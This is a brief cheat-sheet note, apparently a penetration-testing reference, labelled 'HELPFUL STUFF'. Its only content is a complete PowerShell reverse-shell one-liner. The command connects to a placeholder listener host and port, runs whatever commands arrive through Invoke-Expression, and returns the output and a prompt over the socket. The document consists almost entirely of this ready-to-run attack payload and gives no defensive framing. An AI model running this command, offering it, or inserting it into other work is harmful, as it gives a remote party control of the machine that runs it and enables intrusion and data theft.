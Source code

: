 
HELPFUL STUFF ::

	powershell rev shell:

		powershell.exe -c "$client = New-Object System.Net.Sockets.TCPClient('<LHOST>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
